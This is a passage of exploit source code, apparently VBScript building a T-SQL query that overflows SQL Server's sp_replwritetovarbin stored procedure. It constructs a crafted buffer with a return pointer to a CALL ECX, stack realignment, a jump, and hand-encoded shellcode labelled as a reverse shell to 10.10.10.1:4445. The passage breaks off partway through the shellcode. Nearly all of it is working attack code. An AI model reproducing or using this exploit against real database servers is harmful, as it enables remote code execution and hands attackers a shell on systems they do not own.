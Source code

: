 



// ########################################### FOURTH QUERY
SQL4 = "DECLARE @buf NVARCHAR(4000),				"&_
"@val NVARCHAR(4),						"&_
"@counter INT							"&_
"SET @buf = '							"&_ 
"declare @retcode int,						"&_
"@end_offset int,						"&_
"@vb_buffer varbinary,						"&_
"@vb_bufferlen int						"&_  
"exec master.dbo.sp_replwritetovarbin 120, @end_offset output, @vb_buffer output, @vb_bufferlen output,''' "&_
"SET @val = CHAR(0x41)						"&_
"SET @counter = 0						"&_
"WHILE @counter &lt; 2708						"&_
"BEGIN								"&_
"  SET @counter = @counter + 1					"&_
"  IF @counter = 2900						"&_	 
"  BEGIN							"&_
"    SET @val =  CHAR(0x43)					"&_
"  END								"&_
"  IF @counter = 108						"&_
"  BEGIN							"&_


"     /* this is the pointer we wrote - 0x38. It points to a CALL ECX */	"&_
"    SET @buf = @buf + CHAR(0x10) + CHAR(0xc0) + CHAR(0x4c) + CHAR(0x19) "&_


"     /* realign code */						"&_
"    SET @buf = @buf + CHAR(0xe1)				"&_


"     /* realign the stack */					"&_
"    SET @buf = @buf + CHAR(0x83) + CHAR(0xe4) + CHAR(0xfc)	"&_


"     /* jump ahead */						"&_
"    SET @buf = @buf + CHAR(0xe9) + CHAR(0xba) + CHAR(0x00) + CHAR(0x00) + CHAR(0x00) "&_
"    SET @counter = @counter + 12				"&_
"    CONTINUE							"&_
"  END								"&_
"  ELSE IF @counter = 299					"&_
"  BEGIN							"&_
"    SET @val =  CHAR(0x42)					"&_
"  END								"&_
"  ELSE IF @counter = 300					"&_
"  BEGIN							"&_


"     /* Fourth byte overwritten here */			"&_
"     SET @buf = @buf + CHAR(0x47) + char(0xc0) + char(0x4c) + CHAR(0x19) "&_


"     /* reverse shell on 10.10.10.1:4445 */			"&_
"     SET @buf=@buf+CHAR(0xfc)+CHAR(0x6a)+CHAR(0xeb)+CHAR(0x4d)+CHAR(0xe8)+CHAR(0xf9)+CHAR(0xff)
+CHAR(0xff)+CHAR(0xff)+CHAR(0x60)+CHAR(0x8b)+CHAR(0x6c)+CHAR(0x24)+CHAR(0x24)+CHAR(0x8b)
+CHAR(0x45)+CHAR(0x3c)+CHAR(0x8b)+CHAR(0x7c)+CHAR(0x05)+CHAR(0x78)+CHAR(0x01)+CHAR(0xef)
+CHAR(0x8b)+CHAR(0x4f)+CHAR(0x18)+CHAR(0x8b)+CHAR(0x5f)+CHAR(0x20)+CHAR(0x01)+CHAR(0xeb)
+CHAR(0x49)+CHAR(0x8b)+CHAR(0x34)+CHAR(0x8b)+CHAR(0x01)+CHAR(0xee)+CHAR(0x31)+CHAR(0xc0)
+CHAR(0x99)+CHAR(0xac)+CHAR(0x84)+CHAR(0xc0)+CHAR(0x74)+CHAR(0x07)+CHAR(0xc1)+CHAR(0xca)
+CHAR(0x0d)+CHAR(0x01)+CHAR(0xc2)+CHAR(0xeb)+CHAR(0xf4)+CHAR(0x3b)+CHAR(0x54)+CHAR(0x24)
+CHAR(0x28)+CHAR(0x75)+CHAR(0xe5)+CHAR(0x8b)+CHAR(0x5f)+CHAR(0x24)+CHAR(0x01)+CHAR(0xeb)
+CHAR(0x66)+CHAR(0x8b)+CHAR(0x0c)+CHAR(0x4b)+CHAR(0x8b)+CHAR(0x5f)+CHAR(0x1c)+CHAR(0x01)
+CHAR(0xeb)+CHAR(0x03)+CHAR(0x2c)+CHAR(0x8b)+CHAR(0x89)+CHAR(0x6c)+CHAR(0x24)+CHAR(0x1c)
+CHAR(0x61)+CHAR(0xc3)+CHAR(0x31)+CHAR(0xdb)+CHAR(0x64)+CHAR(0x8b)+CHAR(0x43)+CHAR(0x30)
+CHAR(0x8b)+CHAR(0x40)+CHAR(0x0c)+CHAR(0x8b)+CHAR(0x70)+CHAR(0x1c)+CHAR(0xad)+CHAR(0x8b)
+CHAR(0x40)+CHAR(0x08)+CHAR(0x5e)+CHAR(0x68)+CHAR(0x8e)+CHAR(0x4e)+CHAR(0x0e)+CHAR(0xec)